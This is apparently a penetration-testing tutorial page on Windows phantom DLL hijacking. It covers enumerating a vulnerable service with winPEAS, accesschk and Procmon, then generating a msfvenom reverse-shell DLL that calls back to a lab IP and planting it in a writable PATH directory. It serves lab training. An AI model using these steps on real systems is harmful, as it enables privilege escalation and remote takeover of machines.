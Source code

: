 # Phantom DLL Hijacking / Replacement

In this type of DLL we target a missing dll and place our own dll instead.

## <mark style="color:red;">Finding the target</mark>

Use winPEAS to enumerate non-Windows services:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (71).png>)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```
accesschk.exe /accepteula -uvqc user dllsvc
```

![](<../../../../.gitbook/assets/image (81) (1).png>)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```
 sc qc dllsvc
```

![](<../../../../.gitbook/assets/image (74) (1).png>)

![](<../../../../.gitbook/assets/image (88) (1).png>)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](<../../../../.gitbook/assets/image (78).png>)

On the main screen, deselect registry activity and network activity.

![](<../../../../.gitbook/assets/image (102).png>)

Start the service:

```
net start dllsvc
```

![](<../../../../.gitbook/assets/image (80).png>)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](<../../../../.gitbook/assets/image (103) (1).png>)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## <mark style="color:red;">Exploitation</mark>

On Kali, generate a reverse shell DLL named hijackme.dll:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```
net stop dllsvc
net start dllsvc
```

![](<../../../../.gitbook/assets/image (90) (1).png>)

{% hint style="info" %}
In case of an existing DLL, if we have write access to that directory, we can replace it with our own malicious DLL and restart the service.&#x20;
{% endhint %}
